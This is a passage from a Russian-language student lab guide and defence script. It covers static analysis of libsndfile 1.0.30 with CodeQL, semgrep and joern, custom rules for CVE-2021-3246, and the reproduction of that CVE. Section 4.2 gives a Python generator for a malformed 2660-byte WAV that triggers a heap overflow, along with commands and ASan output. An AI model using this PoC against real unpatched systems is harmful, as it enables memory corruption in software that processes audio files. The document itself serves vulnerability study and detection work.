






# Лабораторная работа №4: как рассказать и как показать (самоучитель + сценарий защиты)

::: note
**Сначала главное.** Вся работа выполняется на этой машине: Linux, Omarchy/Arch, без WSL и Docker. Инструменты лежат в `lab4/work/` — этот каталог не входит в git, но на текущей машине он уже собран: CodeQL, semgrep, joern, JDK, исходники libsndfile 1.0.30 и 1.1.0, обычные и ASan-сборки. Результаты прогонов лежат в `lab4/results/`, скриншоты — в `lab4/screenshots/`.

Полный прогон `./scripts/run-all.sh` занимает несколько минут и обращается в интернет за пакетами правил semgrep. Для защиты это не обязательно: все результаты уже получены, а быстрая демонстрация в разделе 5 занимает три минуты. Если каталог `work/` пропал (например, репозиторий склонировали заново), его восстанавливают командами `./scripts/01-fetch.sh` и `./scripts/02-build.sh`.
:::

Этот документ можно читать двумя способами:

- **Как самоучитель** — подряд, с начала. Тогда вы поймёте, что за работа, почему она устроена именно так и что отвечать на вопросы.
- **Как сценарий защиты** — раздел 5 и дальше. Там расписано: что запустить, что должно появиться на экране и что при этом говорить. Блоки с пометкой «Скажи на защите» можно читать вслух почти дословно.

**План на час до защиты.** 1) Раздел 0 — вся работа в одном абзаце (5 минут). 2) Разделы 2.1–2.8 — теория (20 минут). 3) Раздел 4 — как всё работает по шагам (15 минут). 4) Разделы 5.6–5.8 — ожидаемые результаты и быстрая демонстрация (10 минут). 5) Разделы 6 и 7 — вопросы и границы (10 минут). 6) Раздел 8 — шпаргалка и карта кода (5 минут).

**Содержание:** 0 — вся работа в абзаце; 1 — состав; 2 — теория; 3 — вариант 4; 4 — как всё работает; 5 — демонстрация; 6 — вопросы; 7 — границы; 8 — шпаргалка; приложения — рисунки, правила, PoC, сводки.

---

## 0. Вся работа в одном абзаце

Нужно было проверить C-библиотеку **libsndfile 1.0.30** тремя статическими анализаторами, выбрать пять классов ошибок (CWE), найти и воспроизвести реальную уязвимость **CVE-2021-3246**, разработать по одному правилу для **CodeQL**, **semgrep** и **joern** и показать, что каждое правило срабатывает на уязвимой версии и молчит на исправленной **1.1.0**.

Пять штатных запросов CodeQL дали **301** срабатывание (290 — CWE-190, 8 — CWE-129, 2 — CWE-457, 1 — CWE-468, 0 — CWE-120). Штатные наборы semgrep: `p/c` — 0, `p/default` — 0, `p/security-audit` — 7. Штатный `joern-scan` — **368** срабатываний, из них 293 — эвристика Copy loop. Ни один штатный набор не нашёл CVE-2021-3246: уязвимость является ошибкой согласования размеров, а не неограниченным копированием. Поэтому для каждого инструмента написано узкое правило по сигнатуре слабой проверки `blockalign` в `wavlike_msadpcm_init`. Все три правила дают **1 находку на 1.0.30** и **0 на 1.1.0**.

Уязвимость воспроизведена PoC-WAV на **2660 байт**: ASan показывает `heap-buffer-overflow` и запись `WRITE of size 2` в `msadpcm_decode_block` (`src/ms_adpcm.c:279`), а исправленная версия отклоняет тот же файл сообщением `samplesperblock (10) should be >= 1582`.

::: say
«В работе исследована libsndfile 1.0.30 и уязвимость CVE-2021-3246 класса CWE-787. Уязвимость воспроизведена PoC-файлом на 2660 байт: ASan показывает запись за границу кучи в `msadpcm_decode_block`. Пять штатных запросов CodeQL дали 301 срабатывание, semgrep — 7 находок в security-аудите, joern — 368 срабатываний. Ни один штатный набор CVE не нашёл, поэтому для CodeQL, semgrep и joern написаны три собственных правила по сигнатуре слабой проверки `blockalign`; все три дают 1 находку на 1.0.30 и 0 на исправленной 1.1.0».
:::

---

## 1. Что за работа и из чего она состоит

### 1.1. Задание и вариант

Работа называется «Использование средств статического анализа кода для оценки безопасности приложений». По таблице вариантов строка 4 задаёт:

| Параметр | Значение |
|---|---|
| Вариант | 4 |
| Язык | C/C++ |
| Третье средство | **joern** |
| Исследуемое ПО | **libsndfile 1.0.30** |
| Уязвимость | **CVE-2021-3246** |
| Тип ошибки | **CWE-787** (out-of-bounds write), дополнительно CWE-122 (heap-based buffer overflow) |
| Исправление | libsndfile **1.1.0**, коммит `deb669ee` |
| PoC | WAV-файл **2660 байт**, генератор `poc/gen_msadpcm_poc.py` |

Задание требует:

1. Выбрать открытое ПО на языке варианта, для которого есть зарегистрированные CVE.
2. Выбрать пять критических типов ошибок CWE для этого языка, изучить правила CodeQL и примеры уязвимого кода.
3. Провести анализ CodeQL на пять типов ошибок, прокомментировать результаты и при необходимости уменьшить ложные срабатывания.
4. Выбрать известную CVE, описать причину, условия воспроизведения и код исправления.
5. Написать PoC.
6. Разработать правило CodeQL, которое выявляет эту CVE.
7. Провести анализ semgrep и разработать правило semgrep.
8. Провести анализ третьим средством (joern), изучить встроенные правила и разработать своё.
9. Описать всё это в отчёте.

libsndfile выбрана потому, что это компактная C-библиотека, которая разбирает недоверенные звуковые файлы, содержит реальную CVE, собирается за минуту и не требует внешних библиотек. joern выбран потому, что это третий инструмент варианта 4; он работает не с шаблонами и не с классическим dataflow, а с графом свойств кода и запросами на Scala. Именно поэтому одна и та же уязвимость описывается тремя разными способами.

### 1.2. Компоненты

| Что | Файл / каталог | Зачем |
|---|---|---|
| Уязвимая библиотека | `work/src/libsndfile-1.0.30` | исходники, которые анализируются |
| Исправленная библиотека | `work/src/libsndfile-1.1.0` | проверка, что правила различают версии |
| Генератор PoC | `poc/gen_msadpcm_poc.py` | создаёт WAV, воспроизводящий уязвимость |
| PoC | `poc/msadpcm_poc.wav` | файл 2660 байт |
| Правило CodeQL | `rules/codeql/msadpcm-block-size.ql` | поиск слабой проверки в `wavlike_msadpcm_init` |
| Правило semgrep | `rules/semgrep/msadpcm-block-size.yaml` | то же в виде AST-шаблона |
| Правило joern | `rules/joern/msadpcm-block-size.sc` | то же обходом CPG на Scala |
| Скрипты | `scripts/01-fetch.sh` … `run-all.sh` | скачивание, сборка, прогоны, сводки |
| Результаты | `results/` | SARIF, txt, json, сводки, логи ASan |
| Скриншоты | `screenshots/` | PNG с реальным выводом команд |
| Отчёт | `report.md`, `mbks_lab_4.pdf` | текст для сдачи |
| Документация | `Документация_разработки_лаб4.md` | подробный разбор решений |

Каталог `work/` в git не входит: исходники скачиваются скриптом `01-fetch.sh`, инструменты ставятся в `work/tools/` и `work/venvs/`. Поэтому после свежего клонирования репозитория результаты есть, а окружение нужно восстановить.

### 1.3. Схема

```text
libsndfile 1.0.30 ──► CodeQL database ──► 5 штатных CWE-запросов ──► SARIF ──► 301
        │                                                 └──► своё правило ──► 1
        │
        ├──► semgrep ──► p/c, p/default, p/security-audit ──► 0 / 0 / 7
        │                          └──► своё правило ──► 1
        │
        ├──► joern (c2cpg) ──► CPG ──► joern-scan ──► 368
        │                          └──► свой Scala-скрипт ──► 1
        │
        └──► сборка с ASan ──► sndfile-info + msadpcm_poc.wav
                                   ├──► 1.0.30: heap-buffer-overflow, ms_adpcm.c:279
                                   └──► 1.1.0: samplesperblock (10) should be >= 1582

libsndfile 1.1.0 ──► те же инструменты ──► все три своих правила дают 0
```

### 1.4. Что получилось

| Артефакт | Результат |
|---|---|
| Пять штатных запросов CodeQL | **301**: CWE-190 — 290, CWE-129 — 8, CWE-457 — 2, CWE-468 — 1, CWE-120 — 0 |
| Своё правило CodeQL | **1** на 1.0.30 (`src/ms_adpcm.c:131`), **0** на 1.1.0 |
| Штатные наборы semgrep | `p/c` — 0, `p/default` — 0, `p/security-audit` — **7** |
| Своё правило semgrep | **1** на 1.0.30, **0** на 1.1.0 |
| Штатный `joern-scan` | **368**, из них 293 — Copy loop |
| Своё правило joern | **1** на 1.0.30 (`ms_adpcm.c:131`), **0** на 1.1.0 |
| PoC | WAV 2660 байт; ASan: `heap-buffer-overflow` в `msadpcm_decode_block`, `src/ms_adpcm.c:279` |
| Исправленная версия | тот же файл отклоняется: `samplesperblock (10) should be >= 1582` |

Главная проверка качества: три независимых инструмента дают одинаковый результат на двух версиях. Это значит, что сигнатура выбрана правильно, а не случайно совпала с одним движком.

### 1.5. Границы

Сразу назовём границы, чтобы дальше не было сюрпризов:

- исследуется только одна CVE — CVE-2021-3246;
- все три собственных правила ищут конкретную синтаксическую форму условия, а не любой дефект согласования размеров;
- правила не доказывают выход за границу, а узнают уязвимую форму; доказательство даёт PoC и ASan;
- PoC рассчитан на WAV/MS ADPCM и утилиту `sndfile-info`, другие приложения не проверялись;
- штатные наборы шумные: 290 срабатываний CWE-190 и 293 Copy loop — это не 290 и не 293 уязвимости;
- сравнение версий ограничено 1.0.30 и 1.1.0, дистрибутивные патчи отдельно не проверялись.

Подробно — в разделе 7.

---

## 2. Теория на пальцах

### 2.1. SAST: что это и зачем

**SAST** (Static Application Security Testing) — анализ исходного кода без запуска программы. Инструмент читает код, строит его модель и ищет места, которые выглядят опасными: копирование без проверки длины, арифметику над данными из файла, индекс массива из заголовка, неинициализированную переменную.

Простыми словами: SAST — это «читатель кода», который не выполняет программу, а рассуждает о ней по тексту. **DAST** (Dynamic Application Security Testing) — наоборот, запускает программу и подаёт ей входные данные, наблюдая за поведением. SAST видит код, но не видит реального окружения; DAST видит поведение, но только на тех входах, которые ему дали.

Главные понятия:

- **Ложное срабатывание (false positive)** — инструмент говорит «опасно», а на самом деле безопасно.
- **Пропуск (false negative)** — инструмент молчит, а ошибка есть.
- **Точность (precision)** — доля истинных среди всех срабатываний. Низкая точность = много шума.
- **Полнота (recall)** — доля найденных среди всех реальных ошибок. Низкая полнота = много пропусков.
- **Триаж** — ручной разбор срабатываний: истинное, ложное, требует проверки.

В этой работе есть яркие примеры всего: 290 срабатываний CWE-190 — низкая точность; 0 срабатываний CWE-120 на исследуемой CVE — пропуск; 7 находок semgrep — смесь истинных и ложных; собственные правила — высокая точность ценой узости.

::: say
«SAST анализирует код без запуска. Он даёт первичный список подозрительных мест, но не доказательство уязвимости: часть срабатываний ложная, часть ошибок он пропускает. Поэтому результаты нужно разбирать вручную и подтверждать запуском, например PoC под ASan».
:::

### 2.2. CWE, CVE и CVSS

Это три разных уровня описания одной проблемы.

| Понятие | Что означает | Пример в работе |
|---|---|---|
| **CWE** | класс ошибок, «как бывает» | CWE-787 — запись за границу, CWE-122 — переполнение кучи |
| **CVE** | конкретный экземпляр уязвимости в конкретном продукте | CVE-2021-3246 в libsndfile 1.0.30 |
| **CVSS** | численная оценка серьёзности | 8.8 High |

CVE-2021-3246 имеет вектор `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H`. Расшифровка: атака по сети, сложность низкая, привилегии не нужны, нужно действие пользователя (открыть файл), влияние на конфиденциальность, целостность и доступность высокое. Итог — 8.8.

Почему в отчёте указаны и CWE-787, и CWE-122? CWE-787 — общий класс «запись за границу объекта», CWE-122 — его частный случай «переполнение буфера в куче». NVD в качестве основной записи указывает CWE-787, а CWE-122 уточняет, что буфер находится в куче. Это не два разных дефекта, а два уровня уточнения.

### 2.3. AST, CFG, IR, SSA и taint-анализ

Чтобы понимать, чем отличаются три инструмента, нужны пять слов.

- **AST** (abstract syntax tree) — дерево синтаксиса: `if`, вызов, оператор, литерал. CodeQL, semgrep и joern все начинают с AST.
- **CFG** (control-flow graph) — граф управления: какие блоки за каким выполняются, где ветвления и циклы.
- **IR** (intermediate representation) — промежуточное представление, близкое к машинным операциям; CodeQL для C/C++ строит его после компиляции.
- **SSA** (static single assignment) — форма, в которой каждая переменная присваивается один раз, а вместо переприсваиваний появляются версии. Удобна для анализа «откуда пришло значение».
- **Taint-анализ** — распространение метки «недоверенные данные» от источников к стокам.

Схема taint-анализа:

```text
source (файл, argv, сеть) ──► операции ──► sink (memcpy, индекс, арифметика)
                                   │
                              sanitizer / guard
                              (проверка длины, границы)
```

Если данные доходят до стока без проверки — срабатывание. Если по пути стоит проверка — поток блокируется. Именно поэтому качество taint-анализа зависит от того, умеет ли инструмент понимать проверки.

**Path-problem** — это запрос, который возвращает не только место ошибки, но и путь от источника до стока. В SARIF такой результат содержит цепочку шагов, которую можно показать преподавателю.

### 2.4. CodeQL

CodeQL — анализатор от GitHub. Работает в два этапа:

1. **Создание базы.** Для C/C++ запускается компиляция проекта, и фронтенд записывает в базу AST, типы, вызовы, CFG, dataflow. Без компиляции базы нет.
2. **Выполнение запросов.** Запрос на языке QL — это логическая формула: `from ... where ... select ...`. Он выполняется по базе, а результат выгружается в SARIF.

Минимальный запрос выглядит так:

```ql
import cpp

from IfStmt check
where check.getEnclosingFunction().hasName("wavlike_msadpcm_init")
select check, "Найден if в wavlike_msadpcm_init"
```

Ключевые элементы:

- `@kind problem` — результат «место + сообщение»;
- `@kind path-problem` — результат «источник → путь → сток»;
- `@precision` — заявленная точность (low / medium / high);
- `@security-severity` — вклад в оценку;
- `@tags external/cwe/cwe-787` — привязка к CWE;
- пакеты правил (`codeql/cpp-queries`) и каталоги `Security/CWE/...`.

В работе использован пакет `codeql/cpp-queries` версии **1.9.2**, каталог `Security/CWE`. Пять запросов — это пять отдельных `.ql`-файлов, а не один «умный» анализ.

::: say
«CodeQL сначала собирает базу: компилирует проект и записывает AST, типы, CFG и dataflow. Потом по базе выполняется запрос на QL. Запрос — это логическая формула, а не императивный скрипт. `@kind problem` даёт место и сообщение, `@kind path-problem` — ещё и путь от источника до стока».
:::

### 2.5. semgrep

semgrep — анализатор на основе шаблонов исходного кода. Он не компилирует проект и не строит полноценную базу: он разбирает файлы в AST и сопоставляет с шаблоном. Правило — это YAML-файл:

```yaml
rules:
  - id: lab4-msadpcm-block-size
    languages: [c]
    severity: ERROR
    message: >
      MS ADPCM: проверяется только blockalign, а samplesperblock не ограничен.
    patterns:
      - pattern-inside: |
          int wavlike_msadpcm_init(...)
          {
            ...
          }
      - pattern: |
          if (blockalign < 7 * $CHANNELS)
          {
            ...
          }
```

Что здесь важно:

- `pattern` — синтаксический шаблон; `...` означает «здесь может быть что угодно»;
- `$CHANNELS` — метапеременная, вместо неё подставляется любое выражение;
- `pattern-inside` — шаблон должен находиться внутри указанной конструкции (в нашем случае — внутри функции);
- `pattern-not`, `pattern-not-inside` — исключения;
- `metavariable-pattern`, `metavariable-comparison` — дополнительные условия на метапеременные;
- `mode: taint` — упрощённый taint-анализ с секциями `sources`, `sinks`, `sanitizers`;
- `metadata` — CWE, ссылки, категория.

Штатные наборы берутся из реестра semgrep.dev: `--config=p/c` — набор для C, `--config=p/default` — общий, `--config=p/security-audit` — security-аудит. Локальное правило подключается через `--config=rules/semgrep/msadpcm-block-size.yaml`.

Сильная сторона semgrep — скорость и простые правила. Слабая — нет полноценного потока управления и типов, поэтому он часто ошибается на указателях и переприсваиваниях.

::: say
«semgrep не компилирует код: он разбирает файлы в AST и сопоставляет с YAML-шаблоном. `pattern-inside` ограничивает поиск телом функции, `$CHANNELS` — метапеременная. Правило быстро пишется и точно находит шаблон, но не анализирует поток управления, поэтому даёт ложные срабатывания на free/realloc».
:::

### 2.6. joern

joern — анализатор, который строит **CPG** (Code Property Graph) и выполняет по нему запросы на Scala. CPG объединяет три графа:

- AST — синтаксис;
- CFG — управление;
- PDG — зависимости по данным и управлению.

Для C граф строит фронтенд **c2cpg**. Дальше возможны два режима:

1. **`joern-scan`** — запуск готовых запросов из установленной базы. Каждый запрос имеет имя, описание, балл, метки и язык. Строка результата выглядит так:

```text
Result: 2.0 : Copy loop detected: ms_adpcm.c:307:msadpcm_decode_block
```

2. **Свой скрипт** `joern --script` — обход графа на Scala. В скрипте можно взять `cpg.method`, отфильтровать по имени, перейти к `controlStructure`, проверить детей AST условия и записать результат в файл.

Короткий пример запроса из штатной базы — `format-controlled-printf`, балл 4:

```scala
{ cpg =>
    val printfFns = cpg
      .method("(?i)printf")
      .callIn
      .whereNot(_.argument.order(1).isLiteral)
    val sprintsFns = cpg
      .method("(?i)(sprintf|vsprintf)")
      .callIn
      .whereNot(_.argument.order(2).isLiteral)
    printfFns ++ sprintsFns
}
```

Сильная сторона joern — гибкие запросы по графу и возможность писать собственные обходы. Слабая — нужен JDK, база для C меньше, чем у CodeQL, а штатный набор во многом эвристический.

::: say
«joern строит CPG — объединение AST, CFG и графа зависимостей. Штатный `joern-scan` прогоняет готовые запросы, а своё правило пишется на Scala и обходит граф вручную: берём функцию, её `if`, проверяем детей условия. Для C граф строит c2cpg».
:::

### 2.7. AddressSanitizer

**ASan** — инструмент компилятора, который добавляет в программу проверки памяти. Вокруг каждого выделения создаются «красные зоны», а каждое обращение проверяется по теневой памяти. Если программа пишет за границу объекта, ASan останавливает её и печатает:

- адрес и тип ошибки (`heap-buffer-overflow`);
- размер операции (`WRITE of size 2`);
- стек вызовов;
- размер региона и стек выделения.

В работе libsndfile собирается с `-fsanitize=address -g -O1`:

```sh
CC=clang CFLAGS="-std=gnu11 -fsanitize=address -g -O1" \
  LDFLAGS="-fsanitize=address" \
  ./configure --disable-external-libs --disable-shared --enable-static
make -j8 programs/sndfile-info
```

ASan не доказывает, что уязвимость эксплуатируема: он доказывает, что запись вышла за пределы выделенного объекта. Для учебной работы этого достаточно: есть конкретный файл, конкретная строка и конкретный размер.

### 2.8. Три частые путаницы

**Путаница 1: CWE и CVE.** CWE — класс ошибок, CVE — конкретный экземпляр. Нельзя сказать «CWE-2021-3246»; правильно «CVE-2021-3246 класса CWE-787».

**Путаница 2: «инструмент нашёл» и «уязвимость доказана».** Срабатывание SAST — это гипотеза. Доказательство — PoC, ASan, отладочный вывод или ручной разбор. В работе гипотезу дают правила, а доказательство — WAV-файл и падение под ASan.

**Путаница 3: «много срабатываний» и «хороший анализ».** 368 срабатываний joern выглядят солидно, но 293 из них — эвристика Copy loop, которая отмечает почти любой цикл кодека. Качество анализа измеряется не числом строк в отчёте, а точностью и полнотой. Поэтому в работе отдельно считаются истинные, ложные и требующие проверки срабатывания.

---

## 3. Вариант 4: что требовалось и что сделано

| Пункт задания | Что сделано | Где смотреть |
|---|---|---|
| ПО на языке варианта с CVE | libsndfile 1.0.30, CVE-2021-3246 | `README.md`, `work/src` |
| Пять CWE | 120, 190, 129, 457, 468 | `report.md`, раздел 2 |
| Анализ CodeQL по пяти CWE | 301 срабатывание | `results/codeql-cwe-1.0.30.sarif` |
| Изучение встроенных правил CodeQL | описание запросов и точности | `report.md` 2.1–2.5 |
| Исследование CVE | причина, условия, исправление | `report.md` 2.7–2.11 |
| PoC | WAV 2660 байт, ASan | `poc/`, `results/poc-*.log` |
| Правило CodeQL | 1 на 1.0.30, 0 на 1.1.0 | `rules/codeql/` |
| Анализ semgrep | 0 / 0 / 7 | `results/semgrep-*.txt` |
| Правило semgrep | 1 / 0 | `rules/semgrep/` |
| Анализ joern | 368 | `results/joern-builtin-1.0.30.txt` |
| Правило joern | 1 / 0 | `rules/joern/` |
| Отчёт | главы 2–3 | `report.md` |

**Почему именно эти пять CWE.** Для C-библиотеки, которая разбирает чужие файлы, самый опасный класс — ошибки памяти и целочисленной арифметики на данных из файла. В работе взяты:

- CWE-120 — переполнение при записи;
- CWE-190 — целочисленное переполнение;
- CWE-129 — непроверенный индекс массива;
- CWE-457 — условно неинициализированная переменная;
- CWE-468 — неверное масштабирование указателя.

Отдельных штатных запросов CWE-476 (разыменование NULL) и CWE-125 (чтение за границей) в пакете `codeql/cpp-queries` 1.9.2 нет, поэтому вместо них взяты CWE-457 и CWE-468 — тоже классы, приводящие к порче памяти и неопределённому поведению. CWE-416 (use-after-free) в пакете есть; его можно было взять вместо CWE-468, но в работе выбран набор из пяти разных механизмов, а use-after-free разобран на стороне semgrep. Это сознательный выбор, а не утверждение, что набор — «топ-5 всех времён».

**Почему joern.** Вариант 4 прямо задаёт joern третьим средством. Это удобно: CodeQL и semgrep работают с AST и dataflow, а joern — с CPG и Scala-запросами. Три разных движка на одной сигнатуре дают содержательное сравнение, а не три копии одного и того же.

---

## 4. Как всё работает по шагам

### 4.1. Сборка и версии

Скрипт `01-fetch.sh` клонирует теги `v1.0.30` и `1.1.0` в `work/src/`. Скрипт `02-build.sh` собирает четыре варианта: обычный и ASan для каждой версии.

```sh
./scripts/01-fetch.sh
./scripts/02-build.sh
```

Сборка libsndfile:

```sh
CC=clang CFLAGS="-std=gnu11 -g -O1" \
  ./configure --disable-external-libs --disable-shared --enable-static
make -j8 programs/sndfile-info
```

Для ASan добавляются `-fsanitize=address` в `CFLAGS` и `LDFLAGS`. Используется `clang 23.1.3`; сборка занимает около минуты.

| Инструмент | Версия |
|---|---|
| clang | 23.1.3 |
| CodeQL | 2.27.3 |
| пакет `codeql/cpp-queries` | 1.9.2 |
| semgrep | 1.182.1 |
| joern | 4.0.669 |
| JDK | Temurin 21.0.13+9 |
| libsndfile | 1.0.30 (уязвимая), 1.1.0 (исправленная) |

В `src/` версии 1.0.30 — 104 файла `.c` и 56 150 строк. Версии фиксируются в `results/versions.txt`. Это важно: числа в отчёте зависят от версий инструментов и наборов правил.

### 4.2. PoC: WAV-файл и воспроизведение

Генератор `poc/gen_msadpcm_poc.py` собирает WAV вручную через `struct.pack`, без сторонних библиотек. Так видны все поля файла.

Ключевые константы:

```python
MS_ADPCM_GUID = bytes.fromhex("0200000000001000800000aa00389b71")

CHANNELS = 226
BLOCK_ALIGN = 2592
SAMPLES_PER_BLOCK = 10
SAMPLE_RATE = 8000
BITS_PER_SAMPLE = 4
```

Сборка `fmt`-чанка:

```python
fmt = struct.pack(
    "<HHIIHH",
    0xFFFE,              # WAVE_FORMAT_EXTENSIBLE
    CHANNELS,
    SAMPLE_RATE,
    SAMPLE_RATE * BLOCK_ALIGN,
    BLOCK_ALIGN,
    BITS_PER_SAMPLE,
)
extension = (
    struct.pack("<HI", SAMPLES_PER_BLOCK, 0)  # wValidBitsPerSample, dwChannelMask
    + MS_ADPCM_GUID
)
fmt += struct.pack("<H", len(extension)) + extension
data = bytes(BLOCK_ALIGN)
```

Поля файла:

| Поле | Значение | Зачем |
|---|---|---|
| `wFormatTag` | `0xFFFE` | WAVE_FORMAT_EXTENSIBLE |
| SubFormat GUID | `00000002-0000-0010-8000-00AA00389B71` | подформат MS ADPCM |
| `nChannels` | 226 | проверка каналов для extensible не выполняется |
| `nBlockAlign` | 2592 | проходит старую проверку `>= 7 * 226 = 1582` |
| `wValidBitsPerSample` | 10 | читается как `samplesperblock` |
| размер `data` | 2592 | ровно один блок |
| размер файла | 2660 | |

Запуск:

```sh
python3 poc/gen_msadpcm_poc.py
ASAN_OPTIONS=detect_leaks=0 \
  work/build/asan-1.0.30/programs/sndfile-info poc/msadpcm_poc.wav
```

Ожидаемый вывод ASan:

```text
==...==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x...
WRITE of size 2 at 0x... thread T0
    #0 ... in msadpcm_decode_block .../src/ms_adpcm.c:279
    #1 ... in wavlike_msadpcm_init .../src/ms_adpcm.c:171
    #2 ... in wav_open .../src/wav.c:258
    ...
0x... is located 0 bytes after 9428-byte region [...]
allocated by thread T0 here:
    #0 ... in calloc
    #1 ... in wavlike_msadpcm_init .../src/ms_adpcm.c:138
SUMMARY: AddressSanitizer: heap-buffer-overflow .../src/ms_adpcm.c:279 in msadpcm_decode_block
```

На исправленной версии:

```sh
ASAN_OPTIONS=detect_leaks=0 \
  work/build/asan-1.1.0/programs/sndfile-info poc/msadpcm_poc.wav
```

```text
Error : Not able to open input file .../poc/msadpcm_poc.wav.
*** Error samplesperblock (10) should be >= 1582.
```

Почему файл ровно 2660 байт: 12 байт `RIFF`-заголовка, 8 байт заголовка `fmt `, 40 байт `fmt`, 8 байт заголовка `data`, 2592 байта данных. Итого 12 + 8 + 40 + 8 + 2592 = 2660.

::: say
«PoC — это WAV-файл на 2660 байт, который я собираю скриптом. В нём 226 каналов, blockalign 2592 и wValidBitsPerSample 10. Для extensible-формата libsndfile читает validbits как samplesperblock, проверка каналов 1–2 не срабатывает, а старая проверка blockalign проходит. На 1.0.30 ASan показывает запись за границу кучи в msadpcm_decode_block, на 1.1.0 файл отклоняется сообщением samplesperblock (10) should be >= 1582».
:::

### 4.3. Анатомия CVE-2021-3246

Разберём по шагам, что происходит внутри libsndfile 1.0.30.

**Шаг 1. Разбор `fmt`-чанка.** Для обычного `WAVE_FORMAT_MS_ADPCM` в `wavlike_read_fmt_chunk` есть проверка:

```c
case WAVE_FORMAT_MS_ADPCM :
    if (wav_fmt->msadpcm.bitwidth != 4)
        return SFE_WAV_ADPCM_NOT4BIT ;
    if (wav_fmt->msadpcm.channels < 1 || wav_fmt->msadpcm.channels > 2)
        return SFE_WAV_ADPCM_CHANNELS ;
```

Для `WAVE_FORMAT_EXTENSIBLE` этой ветки нет: код читает `validbits` и `channelmask`, но число каналов не ограничивает. Общая проверка `psf->sf.channels > SF_MAX_CHANNELS` пропускает до 1024 каналов, поэтому 226 проходят.

**Шаг 2. Объединение `WAV_FMT`.** Заголовок WAV хранится в объединении:

```c
typedef union
{   unsigned short      format ;
    MIN_WAV_FMT         min ;
    IMA_ADPCM_WAV_FMT   ima ;
    MS_ADPCM_WAV_FMT    msadpcm ;
